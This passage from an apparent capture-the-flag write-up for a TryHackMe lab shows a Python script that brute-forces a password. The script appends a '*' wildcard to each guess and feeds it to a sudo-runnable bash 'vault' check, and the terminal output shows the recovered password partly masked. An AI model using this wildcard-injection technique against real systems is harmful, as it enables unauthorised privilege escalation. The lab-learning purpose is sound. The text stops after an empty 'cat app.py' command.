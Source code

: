 <h2>/tmp</h2>
<p><em>a.py</em></p>

<a href="https://jaxafed.github.io/posts/tryhackme-contrabando/">Jaxafed</a>, thank you!<h6>

```bash
import subprocess
import string

charset = string.ascii_letters + string.digits
password = ""

while True:
    found = False
    for char in charset:
        attempt = password + char + "*"
        print(f"\r[+] Password: {password+char}", end="")
        proc = subprocess.Popen(
            ["sudo", "/usr/bin/bash", "/usr/bin/vault"],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True
        )
        stdout, stderr = proc.communicate(input=attempt + "\n")
        if "Password matched!" in stdout:
            password += char
            found = True
            break
    if not found:
        break

print(f"\r[+] Final Password: {password}")
```

<br>

```bash
hansolo@contrabando:/usr/bin$ python3 a.py > this
hansolo@contrabando:/usr/bin$ cat this
EQu5*******Z
```

<br>

<img width="1237" height="52" alt="image" src="https://github.com/user-attachments/assets/e61cce1d-93d2-4839-a846-18b4bfb7d3a2" />

<br>
<br>
<h2>app.py</h2>

```bash
hansolo@contrabando:/opt/generator$ cat app.py
```

